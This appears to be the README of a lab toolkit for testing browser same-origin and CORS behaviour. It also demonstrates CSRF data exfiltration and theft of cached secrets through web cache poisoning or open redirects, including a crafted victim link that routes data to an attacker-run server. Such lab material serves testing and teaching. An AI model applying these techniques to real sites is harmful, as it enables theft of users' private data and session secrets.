




# Table of Contents

  * [Same-origin browser test](#same-origin-browser-test)
    * [Running the server](#running-the-server)
    * [Viewing results, logging to file and parsing it](#viewing-results-logging-to-file-and-parsing-it)
  * [Data exfiltration via CSRF](#data-exfiltration-via-csrf)
    * [Running the server](#running-the-server-1)
  * [Stealing information via web cache poisoning or open redirects](#stealing-information-via-web-cache-poisoning-or-open-redirects)
     * [Running the server](#running-the-server-2)

`cors.py` runs the server on a given interface/port and provides additional features configurable via the command line:

  * Multi-threading (disabled by default)
  * SSL (disabled by default)
  * Easily configure default CORS-related headers (`Access-Control-Allow-*`) via command line or on a per-request basis using the `origin` and `creds` URL parameters (if `origin` is `{ECHO}` it is taken from the `Origin` header in the request)
  * Other custom headers via command line only

```
usage: cors.py [-h] [-a IP] [-p PORT] [-o [Origin [Origin ...]] | -O]
                 [-x [Header: Value [Header: Value ...]]]
                 [-m [Method [Method ...]]] [-c] [-s] [-C FILE] [-K FILE]
                 [-H [Header: Value [Header: Value ...]]]
                 [-S [DIR|FILE [DIR|FILE ...]]] [-l FILE] [-d] [-t]

Serve the current working directory over HTTPS and with custom headers. The
CORS related options define the default behaviour. It can be overriden on a
per-request basis using the origin and creds URL parameters. creds should be 0
or 1. origin is taken literally unless it is `{ECHO}`, then it is taken from
the Origin header in the request.

optional arguments:
  -h, --help            show this help message and exit

Listen options:
  -a IP, --address IP   Address of interface to bind to. (default: 0.0.0.0)
  -p PORT, --port PORT  HTTP port to listen on. Default is 58080 if not over
                        SSL or 58443 if over SSL. (default: None)

CORS options:
  -o [Origin [Origin ...]], --allowed-origins [Origin [Origin ...]]
                        Allowed origins for CORS requests. Can be "*"
                        (default: [])
  -O, --allow-all-origins
                        Allow all origins, i.e. echo the Origin in the
                        request. (default: None)
  -x [Header: Value [Header: Value ...]], --allowed-headers [Header: Value [Header: Value ...]]
                        Headers allowed for CORS requests. (default:
                        ['Accept', 'Accept-Language', 'Content-Language',
                        'Content-Type', 'Authorization'])
  -m [Method [Method ...]], --allowed-methods [Method [Method ...]]
                        Methods allowed for CORS requests. OPTIONS to one of
                        the special endpoints always return the allowed
                        methods of that endpoint. (default: ['POST', 'GET',
                        'OPTIONS', 'HEAD'])
  -c, --allow-credentials
                        Allow sending credentials with CORS requests, i.e. add
                        Access-Control-Allow-Credentials. Using this only
                        makes sense if you are providing some list of origins
                        (see -o and -O options), otherwise this option is
                        ignored. (default: False)

SSL options:
  -s, --ssl             Use SSL. (default: False)
  -C FILE, --cert FILE  PEM file containing the server certificate. (default:
                        ./cert.pem)
  -K FILE, --key FILE   PEM file containing the private key for the server
                        certificate. (default: ./key.pem)

Misc options:
  -H [Header: Value [Header: Value ...]], --headers [Header: Value [Header: Value ...]]
                        Additional headers to include in the response.
                        (default: [])
  -S [DIR|FILE [DIR|FILE ...]], --secrets [DIR|FILE [DIR|FILE ...]]
                        Directories or files which require a SESSION cookie.
                        If no leading slash then it is matched anywhere in the
                        path. (default: ['secret'])
  -l FILE, --logfile FILE
                        File to write requests to. Will write to stdout if not
                        given. (default: None)
  -d, --debug           Enable debugging output. (default: 20)
  -t, --multithread     Enable multi-threading support. EXPERIMENTAL! The
                        cache has not been implemented in an MT safe way yet.
                        (default: HTTPServer)
```

# Same-origin browser test



`/sop` can be used to test the behaviour of various browsers (many old ones supported) when it comes to cross-origin requests.

  * `getSecret.html`: Fetches `/secret/secret.txt` or `/secret/secret.png` using eight different methods (see below), for each requesting five CORS combinations from the server (see below); supported URL parameters:
    - `host`: The full hostname/IP address:port of the target
    - `hostname`: Only the hostname/IP address of the target; the port number will be the same as the origin
    - `port`: Only the port number of the target; the hostname/IP address will be the same as the origin

`getSecret.html` will log in to the target origin, and fetch `https://{target_origin}/secret/secret.{txt|png}?origin=...&creds=...` requesting each one of the following 5 CORS combinations from the server:
  * Origin: `{as request origin}` , Credentials: true
  * Origin: `{as request origin}` , Credentials: false
  * Origin: `*` , Credentials: true
  * Origin: `*` , Credentials: false
  * no CORS headers

It will do so using each the following eight methods:
  * GET `/secret/secret.txt` via XMLHttpRequest
  * POST `/secret/secret.txt` via XMLHttpRequest
  * GET `/secret/secret.txt` via `<iframe>`
  * GET `/secret/secret.txt` via `<object>`
  * GET `/secret/secret.png` via ``, then draw it in a 2D canvas
  * GET `/secret/secret.png` via ``, then draw it in a 2D canvas
  * GET `/secret/secret.png` via ``, then draw it in a bitmap canvas
  * GET `/secret/secret.png` via ``, then draw it in a bitmap canvas

## Running the server

`getSecret.html` will determine the target origin using any of the `host`, `hostname` or `port` URL parameters, in this order of precedence. If neither is given, it will present an input prompting you for the target origin.

You have these options for CORS testing:

1. Start the server on all interfaces (default):

```bash
python cors.py -l sop/logs/requests_vary_host.log
```

Visit:

```
https://{IP_1}:58080/sop/getSecret.html?hostname={IP_2}
```

replacing `{IP_1}` and `{IP_2}` with two different interfaces, e.g. `127.0.0.1` and `192.168.0.1`.

2. Alternatively, start it only on one interface:

```bash
python cors.py -a {IP} -l sop/logs/requests_vary_host.log
```

and use a DNS name which resolves to the interface's IP address:

```
https://{IP}:58080/sop/getSecret.html?hostname={hostname}
```

or:

```
https://{hostname}:58080/sop/getSecret.html?hostname={IP}
```

You can omit the hostname URL parameter if listening on `localhost` and `localhost` has the `127.0.0.1` address. `getSecret.html` will detect that and use `localhost` or `127.0.0.1` as the target domain (if the origin is `127.0.0.1` or `localhost` respectively).

3. Alternatively, run two different instances on one interface but different ports:

```bash
python cors.py -a {IP} -p 58081 -l sop/logs/requests_vary_port_target.log
python cors.py -a {IP} -p 58082 -l sop/logs/requests_vary_port_origin.log
```

then visit:

```
https://{IP}:58082/sop/getSecret.html?port=58081
```

## Viewing results, logging to file and parsing it

Results from the requests calls will be logged to the page; check the JS console for CORS security errors. Full requests from the browser will be logged to the logfile given by the `-l` option.

To check the exfiltrated data is as it should be, do:

```bash
cd sop
./test_exfiltrated_data.sh
```

To parse the script and print the results in a table do:

```bash
cd sop
./parse_request_log.sh logs/requests_vary_host.log logs/request_vary_host_table.md
cat logs/request_vary_port_target.log logs/request_vary_port_origin.log > logs/request_vary_port.log
./parse_request_log.sh logs/requests_vary_port.log logs/request_vary_port_table.md
```

[The folder](sop/logs) already contains logs and results for many browsers.

# Data exfiltration via CSRF



`/csrf` can be used to test for [CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29) vulnerabilities.

  * `getData.html`: Requests a new cache UUID for saving the exfiltrated data to and presents you with an input field where you put the URL of the secret page you want to fetch via the victim; then generates a URL for the victim to click on (`evil.html`); supported URL parameters:
    - `post`: Fetch target using POST instead of GET
  * `evil.html`: This is the page you send to the victim; it will fetch the data and cache it in the server under the previously generated UUID; supported URL parameters:
    - `reqURL`: The URL of the page to fetch
    - `sendURL`: The URL of the page to send the data to
    - `post`: Fetch using POST instead of GET

## Running the server

The "victim" (`evil.html`) and "attacker" (`getData.html`) must be loaded in different browsers.

Start the server on any interface, e.g.:

```bash
python cors.py
```

Visit `getData.html` in one browser:

```
https://{IP}:58080/csrf/getData.html
```

then input the target URL in the input box, e.g.:

```
https://{IP}:58080/secret/secret.html
```

Copy the generated victim URL and open it in another browser. Click on the
link "Click here to wait for the stolen data" to see the stolen secret data.

# Stealing information via web cache poisoning or open redirects

Often times websites will redirect users or submit user data to external
domains without validating them, even if the target could be controlled by an
attcker. Usually this happens if the application exposes internal data in a way
it can be tampered with by a malicious user. Two common examples are:
  * Open redirect: A vulnerable page may redirect the user based on a URL
    parameter, which is normally set by another page on the app; e.g. `/admin`
    sends an unauthenticated user to `/login?returnURL=%2fadmin` and `/login`
    trusts the `redirectURL` parameter. A successful login may also append secret
    authentication tokens to the URL it redirects to as is often done in OpenID
    and OAuth implementations.
  * Web cache poisoning: A web application is hidden behind a caching proxy and
		dynamically updates all links on it to point to the domain name given in
		the `X-Forwarded-Host` header, which is normally set by the proxy and not
    checked. The proxy may erroneously serve cached content with a malicious
    attacker-supplied `X-Forwarded-Host` to other victim users.

`evil_proxy/vuln.html` is a simple example of a vulnerable page which
takes the path of a caching endpoint (e.g. `/cache`) from a URL parameter
without validating it. It then generates a new random token, which represents
a secret unguessable token, and caches sensitive data available only to the
user viewing the page (`/secret/secret.txt` requiring a cookie) using the token
as a name.

## Running the server

The "attacker" and the vulnerable application should be on different origins:

Vulnerable web app:

```bash
python cors.py -p 58080
```

Attacker:

```bash
python cors.py -O -c -p 58081
```

The "victim" has previously logged in at `http://localhost:58080/login`. The
"attacker" sends the "victim" the following link with a spoofed `cacheURI`:

```
http://localhost:58080/evil_proxy/vuln.html?cacheURI=http%3a%2f%2f127.0.0.1:58081%2fgoto%2f%2fcache
```

The data sent to the cache, as well as the action of the user clicking on the
link to view the data, is proxied via the attacker, in an almost
indistinguishable way:




